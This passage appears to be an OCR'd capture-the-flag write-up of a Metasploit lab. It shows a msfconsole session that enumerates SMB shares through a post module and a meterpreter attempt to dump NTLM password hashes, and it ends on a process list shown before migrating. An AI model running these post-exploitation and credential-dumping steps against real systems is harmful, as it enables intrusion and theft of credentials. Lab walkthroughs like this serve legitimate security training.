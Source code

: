 ```
[-] No results from search
msf5 exploit(windows/smb/psexec) > search enum/share
[-] No results from search
msf5 exploit(windows/smb/psexec) > search enum_share

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  post/windows/gather/enum_shares                   normal  No     Windows Gather SMB Share Enumeration via Registry


msf5 exploit(windows/smb/psexec) > use 0
msf5 post(windows/gather/enum_shares) > run

[*] Running against session 1
[*] The following shares were found:
[*]  Name: SYSVOL
[*] 
[*]  Name: NETLOGON
[*] 
[*]  Name: speedster
[*] 
[*] Post module execution completed
Answer : speedster

What is the NTLM hash of the jchambers user ?

Meterpreter accept the hashdump command directly, so let's try !

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
Ok, let's check what's or process and migrate to another proccess.

meterpreter > ps

Process List
============

 PID   PPID  Name                                       Arch  Session  User                          Path
 ---   ----  ----                                       ----  -------  ----                          ----
 0     0     [System Process]                                                                        
 4     0     System                                     x64   0                                      
 68    4     Registry                                   x64   0                                      
 400   4     smss.exe                                   x64   0                                      
 500   756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 552   544   csrss.exe                                  x64   0                                      
 632   624   csrss.exe                                  x64   1                                      
 676   544   wininit.exe                                x64   0                                      
 692   624   winlogon.exe                               x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```